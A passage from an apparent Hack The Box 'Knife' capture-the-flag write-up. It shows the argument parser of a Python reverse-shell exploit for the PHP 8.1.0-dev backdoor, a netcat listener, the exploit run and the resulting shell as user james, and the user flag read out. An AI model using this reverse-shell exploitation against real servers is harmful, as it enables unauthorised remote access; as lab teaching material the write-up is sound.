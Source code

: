 ```python
def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
```

To use this script, we need to provide the target IP address, our IP address, and a port we will use to listen for a connection. 


# Exploitation  

Before we execute the script for a reverse shell, we need to setup a listener.

```console
kali@kali:~$ nc -nlvp 4242
listening on [any] 4242 ...
```

After setting up a listener on port 4242 (any port of your choice), we can execute the script.

```console
kali@kali:~/Documents/HTB/Knife/php-8.1.0-dev-backdoor-rce$ python3 revshell_php_8.1.0-dev.py http://10.10.10.242 10.10.16.31 4242
```

Checking back at the listener we have setup before, we can see that we got a shell as the user **james**.

```console
kali@kali:~$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.242] 39434
bash: cannot set terminal process group (971): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ 
```

## User Flag

To get the user flag, we can provide `cat` with an absolute path to the file `home/james/user.txt`.

```console
kali@kali:~$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.242] 39434
bash: cannot set terminal process group (971): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cat home/james/user.txt
cat home/james/user.txt
ab1d0b385c48a4a85c9aa2486b0cd100
```
